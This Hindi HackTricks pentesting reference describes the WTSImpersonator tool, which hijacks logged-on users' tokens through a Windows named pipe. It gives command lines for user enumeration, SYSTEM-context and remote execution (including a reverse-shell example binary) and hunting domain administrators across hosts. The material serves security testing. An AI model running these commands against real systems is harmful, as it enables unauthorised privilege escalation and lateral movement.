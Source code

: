 <details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks को समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

The **WTS Impersonator** टूल **"\\pipe\LSM_API_service"** RPC Named pipe का शोषण करता है ताकि लॉग-इन उपयोगकर्ताओं की गणना कर सके और उनके टोकन को हाइजैक कर सके, पारंपरिक टोकन अनुकरण तकनीकों को छलकर बाहर निकलता है। यह दृष्टिकोण नेटवर्क के भीतर अद्भुत लटकती हरकतें सुनिश्चित करता है। इस तकनीक के पीछे इस तकनीक को **Omri Baso** को स्वामित्व दिया जाता है, जिनका काम [GitHub](https://github.com/OmriBaso/WTSImpersonator) पर उपलब्ध है।

### मूल कार्यक्षमता
यह उपकरण एक क्रमबद्ध API कॉल के माध्यम से काम करता है:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### मुख्य मॉड्यूल और उपयोग
- **उपयोक्ताओं की जांच**: उपकरण के साथ स्थानीय और दूरस्थ उपयोक्ता जांच संभव है, किसी भी स्थिति के लिए आदेश का उपयोग करके:
- स्थानीय रूप से:
```powershell
.\WTSImpersonator.exe -m enum
```
- दूरस्थ रूप से, एक आईपी पता या होस्टनाम को निर्दिष्ट करके:
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **आदेशों का निष्पादन**: `exec` और `exec-remote` मॉड्यूल को कार्य करने के लिए एक **सेवा** संदर्भ की आवश्यकता होती है। स्थानीय निष्पादन केवल WTSImpersonator एक्जीक्यूटेबल और एक आदेश की आवश्यकता होती है:
- स्थानीय आदेश निष्पादन के लिए उदाहरण:
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- सेवा संदर्भ प्राप्त करने के लिए PsExec64.exe का उपयोग किया जा सकता है:
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **दूरस्थ आदेश निष्पादन**: PsExec.exe के समान दूरस्थ रूप से एक सेवा बनाना और स्थापित करना शामिल है, जिससे उचित अनुमतियों के साथ निष्पादन संभव हो।
- दूरस्थ निष्पादन का उदाहरण:
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **उपयोक्ता हंटिंग मॉड्यूल**: कई मशीनों पर विशिष्ट उपयोक्ताओं को लक्ष्य बनाना, उनके परमिट के तहत कोड निष्पादित करना। यह स्थानीय व्यवस्थापक अधिकार वाले डोमेन व्यवस्थापकों को लक्ष्य बनाने के लिए विशेष रूप से उपयोगी है।
- उपयोग का उदाहरण:
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```
